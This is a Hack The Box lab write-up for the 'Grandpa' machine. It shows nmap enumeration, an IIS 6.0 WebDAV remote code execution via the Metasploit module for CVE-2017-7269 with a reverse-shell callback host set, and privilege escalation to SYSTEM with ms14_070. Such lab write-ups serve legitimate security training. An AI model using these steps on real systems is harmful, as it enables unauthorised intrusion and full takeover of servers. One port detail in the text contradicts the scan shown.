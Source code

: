 ![logo](/logo.png)

# [Grandpa- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 12 Apr 2017 as the eleventh machine on HTB,Granpa created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Microsoft-IIS
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/grandpa 10.10.10.14
```

###### Output 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/grandpa 10.10.10.14                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:42 EAT
Nmap scan report for 10.10.10.14
Host is up (0.35s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Mon, 12 Aug 2024 16:43:23 GMT
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.17 seconds
```

looking at the results  we find out that there is 1 ports open and its a `Windows`and its running an `Microsoft IIS httpd 6.0`. 

port[80]-  httpd 2.4.18

when we naviagate to [http://10.10.10.14](http://10.10.10.14)  we find a page that say it under construction 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/under.png)

so we know the machine version so what we are going to do is to search for the exploit 

```sh
searchsploit Microsoft IIS 6.0 
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/searchsploit.png)

Some searching reveals a remote code execution vulnerability (CVE-2017-7269). There is a proof of concept that requires some modification, as well as a Metasploit module. Lets examine the Remote Buffer Overflow

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/py.png)

After Examining the exploit we now Import it to our working directory.

# Exploitation

Executing the Metasploit module `windows/iis/iis_webdav_scstoragepathfromurl` immediately grants a shell.

```sh
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
set RPORT 80
set LHOST 10.10.14.15
run
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/shell.png)

now that the meterpreter is refusing to get some infomation we just load the shell and do a `systeminfo` so that we can be able to see if their are hot fixes 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/systeminfo.png)

we find that their is only one hotfix that is done

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/hotfix.png)

we noticed that it running a 32 bit meterpreter so lets migrate to a 32 bit meterpreter with `NT Authority` and be able to run a `local suggester`

After migrating we can now be able to run `sysinfo`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/sysinfo.png)

now i run suggester to find exploits which are vulnerable

# Privillage Exploitation

```sh
search local_exploit_suggester
use multi/recon/local_exploit_suggester
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/suggester.png)

looking at the results we find that their are a couple of exploits 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/exploits.png)

In this case lets try this exploit `exploit/windows/local/ms14_070_tcpip_ioctl`

```sh
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/shell2.png)

and just that way we get shell

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/shellroot.png)

we can get the user flag from `C:\Documents and Settings\Harry\Desktop`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/userflag.png)

we can get the root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Grandpa/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------



